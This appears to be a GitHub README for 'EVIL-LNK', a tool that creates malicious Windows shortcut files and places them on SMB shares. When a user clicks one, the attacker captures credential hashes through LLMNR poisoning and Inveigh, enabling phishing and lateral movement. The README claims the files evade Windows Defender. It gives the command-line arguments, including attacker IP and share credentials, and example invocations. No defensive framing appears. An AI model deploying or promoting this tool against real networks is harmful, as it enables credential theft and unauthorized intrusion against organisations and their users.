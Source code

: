 ## Generate malicious .lnk

![Logo](Evil-LNK.png)

#### EVIL-LNK generates and uploads malicious .lnk files to SMB shares for lateral movement

.lnk are not flagged as malicious by windows defender which make them a great way to phish users if you have wrtite access to a smb share and move laterally.
Simply run the script from a windows host and wait for a user to click the shortcut file. If LLMNBR poisoning is possible you will receive a hash on Inveigh.

```
positional arguments:
  attacker_ip           The IP address of the attacker.
  share_name            The SMB share name.
  username              The SMB username.
  password              The SMB password.
  server_ip             The IP address of the SMB server.

Options:
  -h, --help            show this help message and exit
  --domain DOMAIN       The SMB domain (optional).
  --file_name FILE_NAME
                        The name of the generated .lnk file (optional).
```

### Examples

```python3 main.py <attacker_ip> <share_name> <username> <password> <server_ip> [--domain DOMAIN] [--file_name FILE_NAME]```

```python3 main.py 192.168.1.100 myshare myuser mypass 192.168.1.10 --domain mydomain --file_name custom_filename```
